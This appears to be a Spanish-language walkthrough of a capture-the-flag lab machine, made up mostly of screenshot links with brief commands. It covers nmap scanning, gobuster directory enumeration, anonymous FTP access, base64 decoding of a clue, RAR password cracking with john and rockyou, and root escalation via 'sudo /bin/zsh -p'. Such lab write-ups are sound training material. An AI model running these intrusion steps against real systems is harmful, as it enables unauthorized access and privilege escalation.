

Escaneo para sacar IP
nmap -sn 192.168.56.0/24

Sacamos versiones de servicios en todos los puertos
nmap -sV -p- 192.168.56.120




echo "VjFST1YyRkhVa2xUYmxwYVRURmFiMXBGYUV0a2JWSjBWbTF3WVZkRk1VeERaejA5Q2c9PQo=" | base64 -d
VjFST1YyRkhVa2xUYmxwYVRURmFiMXBGYUV0a2JWSjBWbTF3WVZkRk1VeERaejA5Q2c9PQo=
echo "V1ROV2FHUklTblpaTTFab1pFaEtkbVJ0Vm1wYVdFMUxDZz09Cg==" | base64 -d
V1ROV2FHUklTblpaTTFab1pFaEtkbVJ0Vm1wYVdFMUxDZz09Cg==
echo "WTNWaGRISnZZM1ZoZEhKdmRtVmpaWE1LCg==" | base64 -d
WTNWaGRISnZZM1ZoZEhKdmRtVmpaWE1LCg==
echo "Y3VhdHJvY3VhdHJvdmVjZXMK" | base64 -d
Y3VhdHJvY3VhdHJvdmVjZXMK

gobuster dir -u http://192.168.56.120 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,htm,html,txt,zip, -b 400,404

accedemos con anonymous


descargamos







Buscamos la pista que encontramos cifrada en base64

rar2john Sup3rP4ss.rar > hash_pass.txt
con xato no la saco, con rockyou si
john --wordlist=/usr/share/wordlists/ffuf/SecLists/Passwords/Common-Credentials/xato-net-10-million-passwords-100000.txt hash_pass.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash_pass.txt




esta ssh abierto


/bin/zsh nos sube los privilegios
sudo /bin/zsh -p

